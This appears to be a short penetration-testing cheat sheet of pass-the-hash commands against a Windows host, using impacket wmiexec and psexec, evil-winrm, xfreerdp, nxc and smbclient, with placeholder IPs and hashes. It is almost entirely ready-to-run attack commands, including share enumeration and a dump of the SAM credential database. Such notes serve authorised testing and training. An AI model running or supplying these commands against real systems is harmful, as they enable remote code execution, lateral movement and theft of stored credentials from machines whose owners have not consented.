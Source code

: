 # impacket-wmiexec
Passing the hash using impacket wmiexec
```
impacket-wmiexec -hashes :HASH Administrator@192.168.x.x
```
# impacket-psexec
Passing the hash using impacket psexec
```
impacket-psexec Administrator@192.168.x.x -hashes :HASH
```
# evir-winrm
Passing the hash using evil-winrm
```
evil-winrm -i 192.168.x.x -u "Administrator" -H HASH
```
# xfreerdp3
Passing the hash using xfreerdp
```
xfreerdp3 /u:Administrator /pth:HASH /v:192.168.x.x
```
# nxc
listing shares
```
nxc smb 192.168.x.x -u Administrator -H 00000000000000000000000000000000:HASH --shares
```

dump the sam database
```
nxc smb 192.168.x.x -u Administrator -H 00000000000000000000000000000000:HASH --sam
```
# smbclient
smbclient
```
smbclient \\\\192.168.x.x\\secrets -U Administrator --pw-nt-hash HASH
```